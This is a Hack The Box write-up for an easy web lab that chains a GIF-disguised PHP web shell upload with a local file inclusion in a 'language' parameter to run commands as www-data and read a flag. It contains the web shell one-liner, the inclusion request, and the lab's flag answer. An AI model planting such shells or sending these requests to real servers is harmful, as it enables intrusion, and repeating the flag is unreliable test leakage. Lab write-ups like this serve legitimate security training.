








# Hack The Box - File Upload LFI to RCE | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Inclusion &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.82:30826` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

In this lab we have been told there is an LFI vulnerability in our file upload. We can exploit it in three different ways: the first is to use an image upload attack, if that doesn't work we can use a zip attack, and then if that doesn't work we can use a phar upload attack. The image upload attack is the most reliable, so we can try that first.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Browse target :30826<br/>LFI in language param"]:::entry --> R["Profile image upload"]:::entry
    R --> G["Craft malicious GIF<br/>GIF8 magic bytes + PHP"]:::payload
    G --> U["Upload shell.gif<br/>passes MIME check"]:::user

    U --> L1["Inspect page source<br/>find image path"]:::payload
    U --> L2["Browse profile_images/shell.gif<br/>confirm it landed"]:::user
    L1 --> Path["Path = profile_images/shell.gif"]:::user
    L2 --> Path

    Path --> Inc["LFI includes the upload<br/>language=./profile_images/shell.gif&cmd="]:::payload
    Inc --> RCE["RCE as www-data<br/>id confirms"]:::user

    RCE --> E1["ls /<br/>find flag file"]:::payload
    RCE --> E2["GIF8 uid=33<br/>www-data confirmed"]:::user
    E1 --> Flag["cat /...txt<br/>HTB{...}"]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- How to insert PHP into an image by prepending the `GIF8` magic bytes so the upload passes the MIME filter.
- Building a `.gif` web shell that the server stores but that runs as PHP once it is included.
- Inspecting the page source to work out where uploaded profile images are stored on the server.
- Confirming the upload landed by requesting `profile_images/shell.gif` directly in the browser.
- Combining the upload with the `language` LFI to execute the stored shell and gain RCE as `www-data`.
- Using `./profile_images/` rather than `/profile_images/`, because the include path is relative to the app, not the filesystem root.

---

## Uploading a Malicious Image

We can start by navigating to our webpage.



*Figure 1 - The target application, which has a Profile Settings area with an image upload.*

We can create our malicious GIF file for the profile picture upload page with the following script:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

The `GIF8` at the start is the magic bytes, so it can bypass the MIME filter checks, and `shell.gif` is the file we save it as. Note this is not a file upload vulnerability attack, as you will see in a minute.



*Figure 2 - Creating the GIF web shell and uploading it, the page reports "File successfully uploaded".*

---

## Locating the Uploaded File

Now we can inspect the source to find out where the image is situated.



*Figure 3 - The profile image is shown base64 encoded in the page source.*

It seems it is base64 encoded, so we decode it. However, after decoding it we found this was just our PHP script, so we looked closer at the source code and found the following.


*Figure 4 - The source shows `/profile_images/default.jpg`, revealing uploads live under `profile_images/`.*

We then confirmed it by requesting the file directly.



*Figure 5 - Requesting `profile_images/shell.gif` returns an image error (it is PHP, not a real GIF), confirming the path is `profile_images/shell.gif`.*

So our path is `profile_images/shell.gif`. Now we can use this to exploit our LFI vulnerability.

---

## Gaining RCE via LFI

When we go back to our index page and find our `language` parameter, we can insert this new directory to execute our file.



*Figure 6 - The `language` parameter on the index page is the LFI entry point.*

```
index.php?language=./profile_images/shell.gif&cmd=id
```



*Figure 7 - The shell executes and `id` returns `uid=33(www-data)`. The leading `GIF8` is our magic bytes echoed back.*

And we got our RCE. Now it's time to find the flag.

> **Why `./` instead of `/`?** `./profile_images/file` resolves to `/var/www/html/profile_images/file`, where our file actually is, while `/profile_images/file` would resolve to the filesystem root `/profile_images/file`, which doesn't exist.

---

## Capturing the Flag

We were told it is in one of the directories under `/`, so we list root to find the flag file.

```
index.php?language=./profile_images/shell.gif&cmd=ls /
```



*Figure 8 - Listing `/` reveals the flag file `2f40d853e2d4768d87da1c81772bae0a.txt`.*

We then read it to get our final flag.



*Figure 9 - Reading the flag file returns the flag.*

> **Objective: exploit the file upload + LFI to gain RCE and read the flag.**

**Answer:** `HTB{upl04d+lf!+3x3cut3=rc3}`
